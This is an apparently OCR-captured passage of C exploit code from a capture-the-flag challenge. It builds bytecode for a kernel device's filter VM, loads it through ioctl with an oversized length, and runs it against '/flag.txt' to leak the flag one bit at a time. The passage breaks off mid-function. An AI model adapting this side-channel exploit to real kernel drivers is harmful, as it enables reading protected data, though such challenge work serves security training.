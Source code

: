 ```c
// Helper to construct a 32-bit VM instruction
uint32_t build_insn(uint8_t opcode, uint8_t dst_reg, uint8_t src_reg, uint32_t imm) {
    uint32_t insn = 0;
    insn |= (uint64_t)opcode;
    insn |= (uint64_t)dst_reg << 8;
    insn |= (uint64_t)src_reg << 12;
    insn |= (uint64_t)imm << 16;
    return insn;
}

// The user-space structure to pass to set_program
struct program_user {
    uint64_t prog_ptr;
    uint64_t prog_len;
};

// Global file descriptor for the device
int fd;

// Loads program bytecode
void set_program(uint32_t* prog, uint64_t len) {
    struct program_user user_prog = {
        .prog_ptr = (uint64_t)prog,
        .prog_len = len,
    };
    if (ioctl(fd, IOCTL_SET_PROGRAM, &user_prog) != 0) {
        perror("ioctl(SET_PROGRAM) failed");
        exit(EXIT_FAILURE);
    }
}

// runs the VM code against the "packets"
int run_filter() {
    int ret = ioctl(fd, IOCTL_RUN_FILTER, "/flag.txt");
    if (ret < 0) {
        perror("ioctl(RUN_FILTER) failed");
        exit(EXIT_FAILURE);
    }
    return ret;
}

// leaks a bit
int leak_bit(int offset, int bit) {
    uint32_t prog[10];
    int pc = 0;
    prog[pc++] = build_insn(47, 0, 0, offset); // load packet byte into r0
    prog[pc++] = build_insn(19, 0, 0, bit); // and r0 and constent
    prog[pc++] = build_insn(23, 0, 0, bit); // compare constant with r0
    prog[pc++] = build_insn(31, 7, 0 ,7); // if not equal jump to return 1
    prog[pc++] = build_insn(0, 0, 0, 0); // return 0
    prog[pc++] = build_insn(1, 0, 0, 0); // return 1 (small sled due to uncertainty about jump)
    prog[pc++] = build_insn(1, 0, 0, 0);
    prog[pc++] = build_insn(1, 0, 0, 0);


    set_program(prog, 1000); // 1000 was chosen at random, it was found to be large enough
    return run_filter();
}

// Bits  are leaked in reverse order, so we have to swap them afterwards
uint8_t reverse8(uint8_t b) {
    b = (b & 0xF0) >> 4 | (b & 0x0F) << 4;
    b = (b & 0xCC) >> 2 | (b & 0x33) << 2;
```